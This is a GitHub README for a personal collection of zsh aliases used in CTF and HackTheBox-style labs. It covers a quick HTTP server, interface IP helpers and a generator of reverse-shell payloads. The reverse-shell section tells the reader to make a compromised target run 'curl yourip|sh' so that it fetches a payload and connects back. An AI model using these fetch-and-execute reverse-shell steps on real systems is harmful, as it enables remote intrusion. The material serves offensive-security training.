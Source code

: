 # Stuff for CTFs, HTB, THM etc
Contains aliases and scripts I often use. Just clone this repo **in your home folder** and run `echo "source ~/zsh-aliases/aliases.zsh" >> ~/.zshrc`. After restarting zsh you should be able to use all aliases and scripts. Only tested on Kali Linux, you might need to install additional dependencies on other distros. 
> #### Disclaimer
> Most of those aliases probably suck, feel free to submit a pull request reducing the pepeganess. For me the fact that it works is enough to use them for now :D
## Misc
### > www

Starts a HTTP server on port 80 in the current directory. Also prints a list of the IP address associated with each NIC, shows the current directory path and lists the files. 
Example: 
```
┌──(root㉿pain)-[/tmp/www]
└─$ www
[eth0] 192.168.172.128
[/tmp/www]
linpeas.sh  pspy64
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
> #### Notes
> - Sudo is used to ensure being able to listen on port 80

### > tun0

Copies the IP addres of the tun0 interface to the clipboard. 
Example: 
```
┌──(root㉿pain)-[~/pain]
└─$ tun0 
```
Clipboard contents after:
```
10.10.14.41
```

### > mkdir_cd
Often when making a directory I want to directly `cd` into it after. This does exactly that.  
Example: 
```
┌──(root㉿pain)-[~/pain]
└─$ mkdir_cd meow

┌──(root㉿pain)-[~/pain/meow]
└─$ 
```

## Reverse shells
### > gen_lin_rev $ip $port 
Based on [RSaaS](https://github.com/lukechilds/reverse-shell). Creates a file called `index.html` in the current directory. This file contains multiple reverse shell payloads that will be attempted in sequence until one works. Can be used with `www` to make spawning a reverse shell after gaining RCE extremely easy and fast. Just make the target execute `curl yourip|sh` and it will retrieve the reverse shell payload from your webserver and -hopefully- connect back to your listener. 
Example: 
```
┌──(root㉿pain)-[~]
└─$ gen_lin_rev 127.0.0.1 1337
[+] Wrote Linux reverse shells to /home/pain/index.html
```